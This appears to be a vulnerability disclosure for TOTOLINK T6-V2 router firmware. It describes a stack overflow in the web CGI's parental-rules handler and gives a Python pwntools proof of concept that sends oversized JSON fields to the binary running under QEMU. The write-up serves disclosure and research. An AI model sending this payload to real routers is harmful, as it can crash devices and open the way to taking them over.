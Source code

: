 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_004133c4` (at address 0x4133c4) gets the JSON parameter `desc`, `week`, `sTime`, `eTime`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529100809513.png" alt="image-20220529100809513" style="zoom:67%;" />

## PoC

```python
from pwn import *
import json

data = {
    "topicurl": "setting/setParentalRules",
    "addEffect": "0",
    "mac": "12:34:56:78",
    "desc": 'A'*0x400,
    "week": 'A'*0x400,
    "sTime": 'A'*0x400,
    "eTime": 'A'*0x400
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

